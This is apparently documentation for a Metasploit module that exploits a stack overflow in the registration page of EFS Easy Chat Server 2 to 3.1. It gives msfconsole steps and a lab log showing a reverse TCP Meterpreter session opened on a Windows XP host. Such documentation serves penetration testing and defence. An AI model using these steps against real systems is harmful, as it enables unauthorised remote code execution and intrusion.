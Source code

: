 ## Description

This module exploits a vulnerability in the EFS Easy Chat Server application versions 2 through 3.1. The username parameter in the Registration page 'register.php', which is prone to a stack overflow vulnerability.

This module allows a remote attacker to execute a payload under the context of the user running the Easy Chat Server application

## Vulnerable Application

[Easy Chat Server](http://echatserver.com/) Easy Chat Server is an easy, fast and affordable way to host and manage real-time communication software.

This module has been tested successfully on

 * Easy Chat Server 3.1 on Windows XP En SP3

Installers:

[EFS Easy Chat Server Installers](http://echatserver.com/ecssetup.exe)

## Verification Steps

 1. Start `msfconsole`
 2. Do: `use exploits/windows/http/easychatserver_seh`
 3. Do: `set rhosts [IP]`
 4. Do: `exploit`
 5. You should get your payload executed

## Scenarios

```
marco@kali:~$ msfconsole -q
msf > use exploit/windows/http/easychatserver_seh
msf exploit(easychatserver_seh) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(easychatserver_seh) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (957487 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:1037) at 2017-06-20 00:43:51 +0200

meterpreter > sysinfo
Computer    	: MM-8B040C5B05D9
OS          	: Windows XP (Build 2600, Service Pack 3).
Architecture	: x86
System Language : en_US
Domain      	: WORKGROUP
Logged On Users : 2
Meterpreter 	: x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.56.101 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(easychatserver_seh) >
```
